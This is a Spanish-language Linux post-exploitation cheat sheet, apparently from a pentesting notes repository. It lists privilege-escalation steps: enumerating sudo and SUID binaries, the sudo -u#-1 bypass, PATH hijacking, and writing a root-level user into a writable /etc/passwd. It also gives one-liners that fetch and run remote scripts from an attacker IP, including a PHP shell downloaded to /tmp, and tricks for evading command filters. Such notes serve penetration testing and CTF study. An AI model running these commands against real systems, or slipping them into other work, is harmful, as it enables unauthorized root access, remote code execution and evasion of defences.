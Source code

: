 # Linux
* [Tools](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting/Linux.md#Tools)
* [Version Kernel](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting/Linux.md#version-kernel)
* [Permisos de usuario](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting/Linux.md#permisos-de-usuario)
* [PATH](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting/Linux.md#path)
* [Permisos de archivos](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting/Linux.md#permisos-de-archivos)
* [Procesos](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting/Linux.md#procesos)
* [Monitoreo de red](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting/Linux.md#Monitoreo-de-red)
* [Descargando archivos](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting/Linux.md#Descargando-archivos)
* [Bypassing](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting/Linux.md#Bypassing)

## Tools

* [Linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
* [Linenum](https://github.com/rebootuser/LinEnum)
* [linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)

## Version Kernel

### Enumeracion

```bash
uname -a
```

## Permisos de usuario

### Enumeracion

```bash
sudo -l
```

```bash
cat /etc/sudoers
```

### Explotacion de binarios con permisos para sudo

	* [GTFOBins](https://gtfobins.github.io/)

### AGREGAR CVE	

Si: ALL=(ALL:!root) NOPASSWD:ALL
```bash
sudo -u#-1 /bin/sh 
```

## PATH

### Enumeracion

```bash
echo $PATH
```

### Path: .:/bin/:

Primero busca dentro de la carpeta donde estamos parados.
1. Si podemos, encontrar un binario A con SUID que llame a otro binario B con la ruta relativa
2. Ir a una carpeta donde tengamos permiso de escritura
3. Crear un binario C malicioso con el mismo nombre que binario B
4. Ejecutar binario A

## Permisos de archivos

### Enumeracion

```bash
#Para encontrar archivos con SUID activado
find / -type f -perm -u=s 2>/dev/null

#Encontrar directorios con permisos de escritura
find / -perm 777 2>/dev/null

#SGID activado
find / -perm -g=s -type f 2>/dev/null

#Find Sticky bit
find / -perm -1000 -type d 2>/dev/null
```

### Explotacion de binarios con permisos para SUID/GUID

	* [GTFOBins]()

### passwd con permisos de escritura

```bash
#Crea password para agregar en el archivo /etc/passwd si tiene permisos de escritura
python3 -c 'import crypt; print(crypt.crypt("password", "$6$"))'

#otra opcion
openssl passwd -1


#la linea donde * es donde va la pass
hercules:*:0:0:root:/root:/bin/bash
```

## Procesos

### Enumeracion

```bash
ps aux
```

```bash
pspy32 #buscar tareas que se repitan en el tiempo
```

```bash
crontab -l
```

### Crontab

```
(1)(2)(3)(4)(5) <username> <command to be executed>
(1) Minute (0 - 59)
(2) Hour (0 - 23)
(3) Day (1 - 31)
(4) Month (1 - 12)
(5) Weekday (0 - 7) (Sunday is 0 or 7, Monday is 1...)
```

## Monitoreo de red

### Netstat

```bash
netstat -antp
```

### ss

```bash
ss -antp
```

## Descargando archivos


### Server host

```bash
#En host
python -m http.server 80 #py3

python -m SimpleHTTPServer 80 #py2
```

### Cliente

#### wget

```bash
wget www.url.com/file .
```

#### Ejecutar sin descargar - Curl

```bash
curl -fsSL http://192.168.99.19:8080/test.sh | bash
```

```bash
bash < <( curl http://192.168.99.19:8080/test.sh  )
```

#### Ejecutar sin descargar - get

```bash
wget -q -O- http://192.168.99.19:8080/test.sh | bash
```

```bash
wget http://192.168.99.19:8080/shell.txt -O /tmp/x.php && php /tmp/x.php
```

## Bypassing

### Restricciones de espacios

```bash
cat$IFS/etc/passwd
```

### Usando argumento

```bash
echo $0 # es igual a /bin/bash
```

```bash
echo whoami | $0
```

### Wildcards

```bash
/usr/bin/wh?ami
/usr/bin/wh*ami
```

### Concatenaciones

```bash
'w'h'o'a'm'i
\w\h\o\a\m\i
```

### Variables sin inicializar

```bash
w${u}h${u}o${u}a${u}m${u}i
$u/usr$u/bin$u/whoami
```

### Comandos falsos

```bash
w$(u)h$(u)o$(u)a$(u)m$(u)i
w`u`h`u`o`u`a`u`m`u`i
```

### Usando History

```bash
$!-1 #Reference to last command executed. 
$!-2 #Reference to the penultimate command executed


$mi #Throw an error
$whoa #Throw an error
$!-1!-2 #Equals to whoami
```

### Nueva linea

```bash
$w\
h\
o\
a\
m\
i\
```
